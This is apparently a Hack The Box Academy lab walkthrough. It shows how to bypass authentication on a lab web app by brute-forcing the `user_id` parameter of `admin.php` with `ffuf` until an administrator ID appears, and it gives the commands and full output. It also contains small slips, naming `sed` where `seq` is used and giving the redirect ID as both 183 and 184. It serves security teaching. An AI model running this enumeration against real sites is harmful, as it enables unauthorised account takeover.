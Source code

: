 After spawning the target machine and visiting its root web page, students need to sign in with the credentials `htb-stdnt:AcademyStudent!` and intercept the request with `Burp` to send it to `Repeater`:

![[HTB Solutions/CBBH/z. images/555b2586ca7505e2530946bdae10aa87_MD5.jpg]]

Students will notice that the response performs a redirect to the `/admin.php` web page, with the value of the GET parameter `user_id` being 183:

![[HTB Solutions/CBBH/z. images/e38abf0d0a107b2a79260c39acc46a2d_MD5.jpg]]

Following the redirection, students will notice that although the `PHPSESSID` (unauthenticated session) cookie gets deleted, the web application still allows authenticated access due to the presence of the `user_id` parameter. However, the user with the ID 184 does not possess privileges to load admin data, as indicated by the message (starting with "Could not load admin data.") on line 128:

![[HTB Solutions/CBBH/z. images/432d4ba8f56b091ef04e21762deea8b9_MD5.jpg]]

Students then need to use `sed` to create a wordlist containing IDs starting with 1 up until 1000:

Code: shell

```shell
seq 1 1000 > user_ids.txt
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-a6lye3msi7]─[~]
└──╼ [★]$ seq 1 1000 > user_ids.txt
```

Afterward, students need to use `ffuf` to brute-force all valid user IDs, using the `seq`\-generated wordlist and the (substring of the) error message "Could not load admin data.". Students will find that the user with ID 372 has administrative privileges:

Code: shell

```shell
ffuf -w user_ids.txt -u http://STMIP:STMPO/admin.php?user_id=FUZZ -fr "Could not load admin data."
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-a6lye3msi7]─[~]
└──╼ [★]$ ffuf -w user_ids.txt -u http://94.237.49.212:56652/admin.php?user_id=FUZZ -fr "Could not load admin data."

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.49.212:56652/admin.php?user_id=FUZZ
 :: Wordlist         : FUZZ: /home/htb-ac-413848/user_ids.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Could not load admin data
________________________________________________

372                     [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 18ms]
:: Progress: [1000/1000] :: Job [1/1] :: 61 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```